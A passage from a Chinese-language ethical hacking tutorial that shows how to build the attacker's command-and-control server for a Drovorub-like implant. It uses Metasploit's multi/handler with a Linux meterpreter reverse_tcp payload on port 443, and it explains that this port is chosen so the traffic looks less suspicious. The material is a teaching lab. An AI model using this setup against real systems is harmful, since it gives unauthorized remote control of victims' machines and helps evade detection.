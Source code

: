 你可以使用开源工具构建类似 Drovorub 植入程序的东西。我们将在这里使用 *Metasploit 框架*，这是一个开源的软件库、黑客工具和漏洞代码的集合。伦理黑客社区经常为 Metasploit 做出贡献，因此它是你伦理黑客工具箱中的一款好工具。

#### ***构建攻击者的服务器***

让我们首先设置攻击者的服务器，也就是命令和控制服务器，它将接受来自安装在受害者设备上的植入的连接。Metasploit 框架允许你将这样的服务器托管在独立的机器上，但我们将直接在 Kali Linux 虚拟机上托管它。运行以下命令获取机器的 IP 地址：

```
kali@kali:~$ ifconfig eth0
```

记下这个地址，你稍后会用到它。

接下来，你需要启动 PostgreSQL 服务器，该服务器在 Kali Linux 中预装。PostgreSQL 是用来存储植入连接元数据的数据库。

```
kali@kali:~$ sudo service postgresql start
```

现在服务器已经启动，让我们启动 `msfconsole`，它允许你访问 Metasploit 框架的功能。Metasploit 应该已经预装在 Kali Linux 中，所以你不需要自己安装。通过打开终端并运行以下命令来启动 `msfconsole`：

```
kali@kali:~$ sudo msfconsole -q
```

控制台启动需要一些时间。启动后，运行以下命令开始服务器设置过程：

```
msf> use exploit/multi/handler
```

`use` 命令允许你选择 Metasploit 框架中的模块。*模块* 是执行特定任务的软件。我们将使用 *exploit/multi* 文件夹中的处理模块来创建黑客的服务器。这些模块类似于我们在第四章中开发的 TCP 服务器。它们将监听来自客户端的连接。

选择模块后，使用 `set` 命令为它们分配特定上下文的值。首先设置服务器应该监听的植入类型。Metasploit 有多个适用于 Windows、Linux、iOS 和 Android 系统的植入类型。我们将攻击一个 Linux 系统，因此我们会监听 Linux x86 植入。运行以下命令来设置类型：

```
msf exploit (multi/hander) >set PAYLOAD linux/x86/meterpreter/reverse_tcp
```

`PAYLOAD` 标志指定了要监听的植入类型。有趣的是，*payload* 这个词源于军事术语，通常用来指代炸弹的内容。

接下来，通过传递 Kali Linux 机器的 IP 地址来设置服务器的 IP 地址：

```
msf exploit (multi/hander) > set LHOST <Kali IP address>
```

`LHOST` 代表 *监听主机*。现在设置监听端口 (`LPORT`)：

```
msf exploit (multi/hander) > set LPORT 443
```

我们选择了端口 443，因为它与 HTTPS 协议相关联，并且能使网络流量看起来不那么可疑。有些植入程序甚至通过 DNS 协议进行通信，以避免引起怀疑。运行以下命令启动你配置的服务器：

```
msf exploit (multi/hander) > exploit
```
